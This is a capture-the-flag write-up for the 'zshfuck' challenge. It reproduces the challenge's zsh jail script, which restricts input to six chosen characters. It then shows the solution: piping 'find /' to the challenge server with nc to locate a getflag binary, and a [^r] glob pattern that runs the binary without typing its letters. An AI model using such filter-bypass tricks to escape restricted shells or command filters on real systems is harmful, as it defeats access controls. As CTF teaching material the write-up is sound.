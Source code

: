 # zshfuck

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/afc8e1ca-2460-466c-8bb8-0d25be94ca0a)

solved this with "HalfInchPunisher" also on the CyberSpace team

## solution

```zsh
#!/bin/zsh
print -n -P "%F{green}Specify your charset: %f"
read -r charset
# get uniq characters in charset
charset=("${(us..)charset}")
banned=('*' '?' '`')

if [[ ${#charset} -gt 6 || ${#charset:|banned} -ne ${#charset} ]]; then
    print -P "\n%F{red}That's too easy. Sorry.%f\n"
    exit 1
fi
print -P "\n%F{green}OK! Got $charset.%f"
charset+=($'\n')

# start jail via coproc
coproc zsh -s
exec 3>&p 4<&p

# read chars from fd 4 (jail stdout), print to stdout
while IFS= read -u4 -r -k1 char; do
    print -u1 -n -- "$char"
done &
# read chars from stdin, send to jail stdin if valid
while IFS= read -u0 -r -k1 char; do
    if [[ ! ${#char:|charset} -eq 0 ]]; then
        print -P "\n%F{red}Nope.%f\n"
        exit 1
    fi
    # send to fd 3 (jail stdin)
    print -u3 -n -- "$char"
done
```

we are only allowed to use 6 characters of our choosing (including space and tab) and then we can pass them to the stdin of another process as many times as we want. the goal is to run the getflag binary somewhere on the system

the first thing we can do is to try finding the getflag binary by using `find /` as our charset and `find /` as the command also

first.txt
```
find /
find /
```

```console
quasar@quasar098:~/wasteland/dice$ cat first.txt | nc mc.ax 31774 | grep getflag
/app/y0u/w1ll/n3v3r_g3t/th1s/getflag
```

for the other payload, we can use `[^r]` to match any character that is not `r`, i think, and then we can just run the binary by using those instead of regular letters in our path

```
/[^r][^r][^r]/[^r][^r][^r]/[^r][^r][^r][^r]/[^r][^r][^r][^r]r[^r][^r][^r][^r]/[^r][^r][^r][^r]/[^r][^r][^r][^r][^r][^r][^r]
```

this works because each character is not r except for that one character which is r, which we can just use as r

